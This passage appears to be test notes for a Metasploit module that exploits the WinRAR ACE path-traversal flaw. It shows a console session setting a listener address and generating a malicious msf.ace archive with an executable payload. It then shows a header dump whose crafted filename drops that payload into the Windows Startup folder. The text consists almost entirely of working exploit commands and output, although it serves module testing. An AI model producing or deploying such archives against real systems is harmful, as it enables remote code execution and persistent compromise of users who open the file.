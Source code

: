 ### Test with autogenerated payload, no additional files in archive
Output from Metasploit:
```
msf5 exploit(windows/fileformat/winrar_ace) > set LHOST 172.16.72.1
LHOST => 172.16.72.1
msf5 exploit(windows/fileformat/winrar_ace) > exploit

[*] Payload filename: sGrBPr.exe
[+] msf.ace stored at /home/msfdev2/.msf4/local/msf.ace
msf5 exploit(windows/fileformat/winrar_ace) > 
```

Verify checksums using `acefile`:
```
msfdev2@automata:~$ python3 acefile.py --headers .msf4/local/msf.ace
volume
    filename    .msf4/local/msf.ace
    filesize    73972
    headers     MAIN:1 FILE:1 others:0
header
    hdr_crc     0x286b
    hdr_size    49
    hdr_type    0x00        MAIN
    hdr_flags   0x9000      ADVERT|SOLID
    magic       b'**ACE**'
    eversion    20          2.0
    cversion    20          2.0
    host        0x02        Win32
    volume      0
    datetime    0x4e561810  2019-02-22 03:00:32
    reserved1   97 4f f6 aa 00 00 00 00
    advert      b'*UNREGISTERED VERSION*'
    comment     b''
    reserved2   b''
header
    hdr_crc     0x0131
    hdr_size    113
    hdr_type    0x01        FILE32
    hdr_flags   0x8001      ADDSIZE|SOLID
    packsize    73802
    origsize    73802
    datetime    0x4e55b063  2019-02-21 22:03:06
    attribs     0x00000020  ARCHIVE
    crc32       0xab7ba1d3
    comptype    0x00        stored
    compqual    0x03        normal
    params      0x000a
    reserved1   0x4554
    filename    b'C:\\C:C:../AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\sGrBPr.exe'
    comment     b''
    ntsecurity  b''
    reserved2   b''
msfdev2@automata:~$ 
```
